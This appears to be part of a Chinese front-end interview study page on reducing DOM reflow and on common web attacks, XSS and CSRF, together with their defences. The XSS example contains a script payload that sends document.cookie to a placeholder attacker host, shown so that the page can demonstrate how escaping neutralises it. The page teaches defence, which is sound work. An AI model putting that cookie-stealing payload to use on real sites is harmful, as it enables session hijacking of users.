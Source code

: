         * <font style="color:rgb(44, 62, 80);">使用</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">createDocumentFragment</font><font style="color:rgb(44, 62, 80);">批量操作</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">DOM</font>
        * <font style="color:rgb(44, 62, 80);">编码上，避免连续多次修改，可通过合并修改，一次触发</font>
        * <font style="color:rgb(44, 62, 80);">对于大量不同的</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">dom</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">修改，可以先将其脱离文档流，比如使用绝对定位，或者</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">display:none</font><font style="color:rgb(44, 62, 80);">，在文档流外修改完成后再放回文档里中</font>
        * <font style="color:rgb(44, 62, 80);">动画实现的速度的选择，动画速度越快，回流次数越多，也可以选择使用</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">requestAnimationFrame</font>
        * <font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">css3</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">硬件加速，</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">transform</font><font style="color:rgb(44, 62, 80);">、</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">opacity</font><font style="color:rgb(44, 62, 80);">、</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">filters</font><font style="color:rgb(44, 62, 80);">，开启后，会新建渲染层</font>

### [](https://www.123fe.net/docs/base/high-frequency.html#%E5%B8%B8%E8%A7%81%E7%9A%84web%E5%89%8D%E7%AB%AF%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F%E6%9C%89%E5%93%AA%E4%BA%9B)<font style="color:rgb(44, 62, 80);">常见的web前端攻击方式有哪些</font>
**<font style="color:rgb(44, 62, 80);">XSS</font>**

+ <font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">Cross Site Script</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">跨站脚本攻击</font>
+ <font style="color:rgb(44, 62, 80);">手段：黑客将JS代码插入到网页内容中，渲染时执行</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">JS</font><font style="color:rgb(44, 62, 80);">代码</font>
+ <font style="color:rgb(44, 62, 80);">预防：特殊字符串替换（前端或后端）</font>

```javascript
// 用户提交
const str = `
  <p>123123</p>
  <script>
      var img = document.createElement('image')
      // 把cookie传递到黑客网站 img可以跨域
      img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
  </script>
`
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
// 替换字符，无法在页面中渲染
//   &lt;script&gt;
//     var img = document.createElement('image')
//     img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
// &lt;/script&gt;
```

**<font style="color:rgb(44, 62, 80);">CSRF</font>**

+ <font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">Cross Site Request Forgery</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">跨站请求伪造</font>
+ <font style="color:rgb(44, 62, 80);">手段：黑盒诱导用户去访问另一个网站的接口，伪造请求</font>
+ <font style="color:rgb(44, 62, 80);">预防：严格的跨域限制 + 验证码机制</font>
    - <font style="color:rgb(44, 62, 80);">判断</font><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">referer</font>
    - <font style="color:rgb(44, 62, 80);">为</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">cookie</font><font style="color:rgb(44, 62, 80);">设置</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">sameSite</font><font style="color:rgb(44, 62, 80);">属性，禁止第三方网页跨域的请求能携带上</font><font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">cookie</font>
    - <font style="color:rgb(199, 37, 78);background-color:rgb(249, 242, 244);">token</font>
    - <font style="color:rgb(44, 62, 80);">关键接口使用短信验证码</font>
